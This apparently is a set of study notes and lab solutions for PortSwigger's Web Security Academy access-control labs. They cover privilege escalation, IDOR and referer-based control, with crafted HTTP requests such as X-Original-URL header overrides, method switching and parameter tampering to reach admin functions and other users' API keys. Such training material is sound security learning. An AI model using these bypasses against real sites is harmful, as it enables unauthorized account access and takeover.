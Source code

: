 # Portswigger's Web Security Academy

Notes and ```lab``` solutions/hints.

Read the actual solutions (upsolve).

## Access Control

- **Authentication** identifies the user and confirms that they are who they say they are.
- **Session management** identifies which subsequent HTTP requests are being made by that same user.
- **Access control** determines whether the user is allowed to carry out the action that they are attempting to perform.

### User's perspective:

1. Vertical access controls
2. Horizontal access controls
3. Context-dependent access controls

### Parameter-based access control methods: hidden field, cookie, preset query string

```
Unprotected admin functionality: robots.txt
Unprotected admin functionality with unpredictable URL: view source => js to check admin => /admin-uhsegl
User role controlled by request paramter: login as wiener/peter => go to /admin
User role can be modified in user profile: 
```

### Platform misconfiguration:
- Restricting certain URLs
- Restricting certain HTTP methods
- *Custom http headers to override restricted urls*

```
URL-based access control can be circumvented

POST / HTTP/1.1
Cookie: session=FQxqrQ8PJHEBARHT7se4bxv6sqHGrQJD
X-Original-URL: /admin
```

```
Method-based access control can be circumvented

Login as wiener/peter:
PUT /admin-roles HTTP/1.1
Cookie: session=UdlpEENsbTjmMhi15gFrGZLzPJlprpTK
username=wiener&action=upgrade
```

### Horizontal Privilege Escalation

```
User ID controlled by request parameter

Login as wiener/peter:
/my-account?id=carlos

Copy and submit the API key
```

```
User ID controlled by request parameter, with unpredictable user IDs 

Login as wiener/peter:
Go to /post?postId=3, to find carlos' userId.
User that userId to get API key from My Account page.

```

```
User ID controlled by request parameter with data leakage in redirect

Login as wiener/peter
Go to /my-account?id=carlos => it redirects back to home page
Go to /my-account?id=carlos and intercept the response in Burp
Before redirection, the API key for carlos is leaked.
```

### Horizontal to vertical privilege escalation

```
User ID controlled by request parameter with password disclosure

Login as wiener/peter
Go to /my-account?user=administrator
Change input type of password to text
Login as administrator/xj6efi
Delete carlos
```

### Insecure direct object references

When an application uses user-supplied input to access objects directly.

```https://insecure-website.com/customer_account?customer_number=132355```

IDOR vulnerabilities often arise when sensitive resources are located in static files on the server-side filesystem. 

``` https://insecure-website.com/static/12144.txt```

```
Insecure Direct Object References

Login as wiener/peter
Go to /chat and Download Transcript
Intercept request in Burp to see that transcript is being downloaded from /download-transcript/2.txt
Go to /download-transcript/1.txt
Get carlos' password: qahe69
Login to carlos' account
```

### Access control vulnerabilities in multi-step processes

```
Multi-step process with no access control on one step

Login as adminstrator/admin
Observe request for upgrading a user:

POST /admin-roles HTTP/1.1
action=upgrade&confirmed=true&username=wiener

Repeat the request while logged in as wiener
```

### Referer-based access control

```
Login as administrator/admin
Go to /admin
Upgrade a user and intercept the request in Burp

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Referer: https://ace91fd81fbaa096804b8c630061001c.web-security-academy.net/admin

Login as wiener/peter and send the request.

```

### Location-based access control

Circumvented using web proxies, VPNs, or manipulation of client-side geolocation mechanisms.

-----
